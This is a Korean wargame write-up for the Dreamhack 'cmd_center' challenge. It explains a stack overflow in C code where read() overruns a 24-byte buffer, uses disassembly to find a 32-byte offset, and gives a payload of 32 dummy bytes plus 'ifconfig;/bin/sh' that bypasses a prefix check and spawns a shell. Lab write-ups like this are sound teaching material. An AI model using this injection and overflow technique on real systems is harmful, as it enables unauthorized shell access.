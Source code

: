 

- **인젝션(Injection)**: 악의적인 데이터를 프로그램에 입력하여 이를 시스템 명령어, 코드, 데이터베이스 쿼리 등으로 실행되게 하는 기법
- **커맨드 인젝션(Command Injection)**: 인젝션의 종류 중 하나. 시스템 명령어에 대한 인젝션을 의미함. 취약점이 발생하는 원인은 단순하지만, 매우 치명적인 공격으로 이어질 수 있음. 개발자는 사용자의 입력을 반드시 검사해야 하며, 되도록 `system` 함수의 사용을 자제해야 함.
- **메타 문자(Meta Character)**: 셸 프로그램에서 특수하게 처리하는 문자. `;`를 사용하면 여러 개의 명령어를 순서대로 실행시킬 수 있음.

워게임

cmd_center

## **[문제분석](https://keyme2003.tistory.com/entry/dreamhack-cmdcenter#%EB%AC%B8%EC%A0%9C%EB%B6%84%EC%84%9D-1)**

---

```arduino
#include <stdio.h>
#include <string.h>
#include <unistd.h>
int main()
{

        char cmd_ip[256] = "ifconfig";
        int dummy;
        char center_name[24];

        init();

        printf("Center name: ");
        read(0, center_name, 100);

        if( !strncmp(cmd_ip, "ifconfig", 8)) {
                system(cmd_ip);
        }

        else {
                printf("Something is wrong!\n");
        }
        exit(0);
}
```

**코드 분석**

1. `center_name`에 100 바이트 입력을 받는다.
2. `cmd_ip` 첫 8바이트와 `"ifconfig"`를 비교하고 일치하면 `system(cmd_ip)`를 실행한다.

`center_name`는 24 바이트 크기의 배열이지만, 100 바이트 입력을 저장할 수 있다. 따라서 `center_name` 을 벗어나는 메모리 공간에 쓰기가 가능하고 `OOB`가 발생한다.

`center_name`이 `cmd_ip` 보다 스택에서 상단에 위치하기 때문에, 100 바이트 범위 내의 `cmd_ip` 영역이 존재한다면 `cmd_ip`를 임의의 데이터로 덮을 수 있다.

만약, `cmd_ip` 를 `"/bin/sh"`로 덮는다면, `system(cmd_ip) == system("/bin/sh")`가 실행되면서 쉘을 얻을 수 있다.

하지만 `cmd_ip` 첫 8바이트 값이 `"ifconfig"`인지 검증하는 로직이 있다. 따라서 적절하게 bypass 할 수 있도록 명령어를 구성해야한다.

예를 들면,

```
ifconfig;/bin/sh
```

와 같이 명령어를 구성하면 검증을 우회하고 쉘을 실행할 수 있다.

## **[문제풀이](https://keyme2003.tistory.com/entry/dreamhack-cmdcenter#%EB%AC%B8%EC%A0%9C%ED%92%80%EC%9D%B4-1)**

---

목적은 `center_name`을 이용해서 `cmd_ip`를 `"ifconfig;/bin/sh"`으로 덮어쓰는 것이다. 따라서 `center_name ~ cmd_ip` 거리를 구해야한다.

### **○ read(0, center_name, 100)**

```
   0x0000000000000916 <+105>:   lea    rax,[rbp-0x130]
   0x000000000000091d <+112>:   mov    edx,0x64
   0x0000000000000922 <+117>:   mov    rsi,rax
   0x0000000000000925 <+120>:   mov    edi,0x0
   0x000000000000092a <+125>:   call   0x720 <read@plt>
```

### **○ system(cmd_ip)**

```
   0x000000000000094e <+161>:   lea    rax,[rbp-0x110]
   0x0000000000000955 <+168>:   mov    rdi,rax
   0x0000000000000958 <+171>:   call   0x700 <system@plt>
```

`center_name`은 `<main+105>`를 통해 `[rbp-0x130]`에 위치한다는 것을 알 수 있고 `cmd_ip`는 `<main+161>`를 통해 `[rbp-0x110]`에 위치한다는 것도 알 수 있다.

즉, `center_name ~ cmd_ip` 거리는 `0x130 - 0x110 = 0x20 = 32`이다.

그렇다면 payload는 다음과 같이 작성할 수 있다.

```csharp
[dummy] *32 + "ifconfig;/bin/sh"
```

![cmd_center.jpg](https://prod-files-secure.s3.us-west-2.amazonaws.com/a4983dbd-4924-435d-b0f1-3ca8d60a02fa/812fc3e4-8346-4997-ba32-65d086aadafc/cmd_center.jpg)

플래그 획득
